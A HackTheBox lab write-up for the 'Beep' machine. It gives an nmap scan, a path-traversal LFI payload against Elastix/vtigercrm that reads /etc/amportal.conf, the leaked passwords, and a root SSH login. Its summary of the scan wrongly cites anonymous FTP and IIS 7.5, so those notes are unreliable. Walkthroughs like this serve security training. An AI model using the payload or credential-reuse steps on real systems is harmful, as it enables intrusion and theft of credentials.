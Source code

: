 ```yaml
---
layout: default
title: "Beep"
tags: hackthebox linux easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Linux    | Easy       | 20     | 15 March 2017 | 10.10.10.7  |



# Skills

>* NMap
>* Local File Inclusion
>* SSH

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.7
```

This was the initial nmap scan. The key things to note are:
>* ftp-anon: Anonymous FTP login allowed (FTP code 230)
>* Files accessible from Anonymous login
>* 80/tcp open  http    Microsoft IIS httpd 7.5

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL TOP EXPIRE(NEVER) PIPELINING USER AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte Completed LISTEXT QUOTA ID OK MULTIAPPEND IMAP4 STARTTLS UIDPLUS LITERAL+ URLAUTHA0001 X-NETSCAPE CONDSTORE MAILBOX-REFERRALS CATENATE LIST-SUBSCRIBED IDLE NAMESPACE THREAD=REFERENCES SORT ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY RENAME IMAP4rev1 SORT=MODSEQ NO CHILDREN ACL UNSELECT ATOMIC
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-14T01:36:36+00:00; +1m40s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=38075%PV=Y%DS=2%DC=T%G=Y%TM=5F0D0C5
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=C3%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m39s

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   24.28 ms 10.10.14.1
2   25.11 ms 10.10.10.7
2   26.88 ms 10.10.10.5
```

# Exploitation

## Elastix LFI Exploit

```bash 
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Exploit Source: https://www.exploit-db.com/exploits/37637

After researching the services running on the machine, I discovered that a service called "Elastix" (an interface tool for Aesterix based PBX's) was vulnerable to local file inclusion meaning that I was able to read any of the files on the machine. So, as you can see from the URL above, I manipulated the current_language parameter in the graphql file to read out the servers amportal config file, that would then give me the database usernames and passwords.

```bash

FreePBX Database configuration
AMPDBHOST: Hostname where the FreePBX database resides
AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
AMPDBUSER: Username used to connect to the FreePBX database
AMPDBPASS: Password for AMPDBUSER (above)
AMPENGINE: Telephony backend engine (e.g. asterisk)
AMPMGRUSER: Username to access the Asterisk Manager Interface
AMPMGRPASS: Password for AMPMGRUSER

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

## SSh'ing in

```bash
$ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

Now, admittedly I think I got lucky on this one, because it just so happened that the root password for the box was also in this file. So, using the command above, I was simply able to use SSH to gain access to the root account on the machine.

```bash
root@10.10.10.7s password: 
Last login: Tue Jul 14 04:31:58 2020 from 10.10.14.23

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```

# User Flag

```bash
[root@beep ~] cd /
[root@beep /] cat $(find -iname "user.txt")
```

# Root Flag

```bash
[root@beep /] cat $(find -iname "root.txt")
```